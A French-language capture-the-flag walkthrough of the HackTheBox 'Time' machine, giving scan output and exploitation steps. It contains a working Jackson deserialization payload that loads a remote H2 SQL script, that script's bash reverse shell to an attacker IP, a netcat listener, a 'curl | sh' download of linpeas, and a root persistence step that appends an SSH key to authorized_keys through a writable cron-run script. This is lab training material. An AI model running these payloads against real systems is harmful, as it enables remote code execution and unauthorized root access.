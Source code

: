 ```yaml
---
title: " HackTheBox - [Time] "
description: Simple writeup of the Time box on Hackthebox.
---
```


   ![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)


![r](https://cdn.discordapp.com/attachments/519930659620257797/832739076687134800/68747470733a2f2f692e696d6775722e636f6d2f344d37495777502e676966.gif)

## 0x1 - Nmap


```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On peut apercevoir qu'il y a les ports suivants qui sont ouverts :

```sh
80/http
22/ssh
Système d'exploitation Linux.
```

Nous allons jeter un coup d'œil au port ``http/80`` pour voir ce qu'il y'a d'intéressant.


## 0x2 - Enumération web


Nous voyons un embellisseur et un validateur json en ligne avec 2 options, ``"Beatify"`` et ``"Validate! (Beta)"``.


![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)


J'ai intercepté les deux options via ``burpsuite`` et je viens de saisir un échantillon de données ``JSON`` dans le champ de saisie, sélectionnez l'option ``Beautify`` et cliquez sur le bouton ``PROCESS`` . Nous pouvons voir que cela fonctionne. 


Maintenant, essayez la même chose sur ``"Validate! (Beta)"`` options : 


![a](https://media.discordapp.net/attachments/490431433559506954/834012057694371850/unknown.png)


Vous avez une erreur!

```sh
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```




J'ai collé le message d'erreur dans la barre de recherche google : ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` Je suis tombé sur un article de ``stackoverflow``, expliquant l'erreur en question.
<a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">article here</a>



![ak](https://media.discordapp.net/attachments/490431433559506954/834008824389959690/unknown.png)



Après l'avoir lu, j'ai compris que l'erreur est liée à ``Jackson Polymorphic Deserialization expected START_ARRAY``.


## 0x3 - Foothold


Maintenant, vous devez créer un fichier ak.sql et ajouter un reverse shell en bash pour qu'il me rappelle. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```


Maintenant démarrer un listenner avec netcat :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Et injecter votre payload sur l'option : ``"Validate!(Beta)"``.


```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/ak.sql'”}]
```

Et vous obtenez un reverse shell sur l'user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.10.214] 42212
```


Pour avoir un reverse shell stable type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```

Vous obtenez l'user flag :

```sh
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```


## 0x3 - Privilege Escalation


Maintenant nous allons upload ``Linpeas`` ( LinPEAS est un script qui recherche des chemins possibles pour augmenter les privilèges sous Linux ).

Installer linpeas : <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start un serveur python où se trouve votre fichier linpeas.sh et curl vers la machine cible.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

Nous pouvons voir que root a accédé à ce fichier: ``«/usr/bin/timer_backup.sh»``. Qui appartient à votre utilisateur et est accessible en écriture et writeable.


![ak](https://media.discordapp.net/attachments/490431433559506954/834009494190817280/unknown.png)


Vous devez créer votre clé ssh, ajouter notre clé publique SSH au fichier ``allowed_keys`` sur le serveur. Pour ce faire, suivez les commandes suivants :


```sh
ssh-keygen
( no passphrase ) 
Copier votre clée id_rsa.pub key 
Et effectuez cette command sur la machine cible. : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Maintenant vous faites un ``chmod 600`` pour avoirs les permissions puis vous vous connecter au port ssh avec la clée ``id_rsa`` : 


```sh
chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214
```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Nous avons root la machine avec succès.

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```

##  Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : https://github.com/x0ld
- Twitter : @x0ld7
- HTB : [https://www.hackthebox.eu/home/users/profile/491690](https://www.hackthebox.eu/home/users/profile/491690)


